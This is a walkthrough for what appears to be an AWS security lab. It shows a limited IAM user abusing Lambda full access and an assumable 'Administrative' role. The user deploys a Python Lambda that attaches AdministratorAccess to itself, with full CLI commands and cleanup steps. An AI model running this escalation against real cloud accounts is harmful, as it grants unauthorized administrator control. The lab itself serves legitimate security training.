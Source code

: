 # Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

The first command lists existing policies managed by aws and your account. While the seconds lists inline policies that only exist for the object they are attached too.

It looks like we have full lambda permissions: `arn:aws:iam::aws:policy/AWSLambda_FullAccess`

Lets see what roles exist that we can use on our lambda.

```sh
aws iam list-roles
```

It seems that there is a role that we can use: `Administrative`

```sh
aws iam get-role --role-name Administrative

aws iam list-attached-role-policies --role-name Administrative
```

The roles has administrator permissions and can be used on lambda functions, lets pivot from this.

```txt
"AssumeRolePolicyDocument": {
	"Version": "2012-10-17",
    "Statement": [
        {
			"Sid": "",
			"Effect": "Allow",
			"Principal": {
				"Service": "lambda.amazonaws.com"
			},
			"Action": "sts:AssumeRole"
        }
    ]
},
```

Lets create a lambda a lambda function and use the role that have admin.

Put the following code into a file (*main.py*).

```py
import boto3

def lambda_handler(event, lambda_context):
    iam = boto3.resource('iam')
    user = iam.User('demo')
    response = user.attach_policy( PolicyArn = 'arn:aws:iam::aws:policy/AdministratorAccess' )
    print(response)
```

Replace ***0123456789*** with your account id from the terraform output.

```sh
vim main.py

zip -u code.zip main.py

aws lambda create-function --function-name demo --runtime python3.9 --role arn:aws:iam::0123456789:role/Administrative --zip-file fileb://code.zip --handler main.lambda_handler
```

Lets now invoke the function to update our permissions.

```sh
aws lambda invoke --function-name demo file.out
```

We can now attach admin permissions to the demo user.

```sh
aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove what we created and then let terraform do the rest.

```sh
aws lambda delete-function --function-name demo

aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

rm main.py code.zip file.out
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
